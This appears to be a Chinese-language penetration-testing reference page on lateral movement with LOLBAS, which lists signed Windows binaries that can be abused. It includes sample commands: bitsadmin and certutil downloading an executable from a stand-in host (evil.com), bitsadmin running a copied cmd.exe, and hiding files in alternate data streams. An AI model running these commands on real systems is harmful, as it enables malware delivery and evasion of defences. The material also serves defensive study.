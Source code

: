 横向移动
========================================

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- appsyncvpublishing.exe
    - 执行powershell
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
    - 下载文件 ``certutil -urlcache -split -f https://addr/example.exe``
    - 注意 certutil 是有cache的，需要显式删除
    - base64 编解码 ``certutil -encode`` /  ``certutil -decode``
- cmd.exe
- cmstp.exe
- control.exe
    - `加载dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`_
- csc.exe
    - 编译 C# 载荷
- cscript.exe
    - 执行脚本
- extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- forfiles.exe
    - ``forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe``
- mofcomp.exe
- makecab.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- msiexec.exe
    - 安装msi
    - 加载dll
- msxsl.exe
    - 处理XSL程序
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- IEExec.exe
    - .NET Framework附带程序
- powershell.exe
- psexec.exe
    - https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- winrm.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。
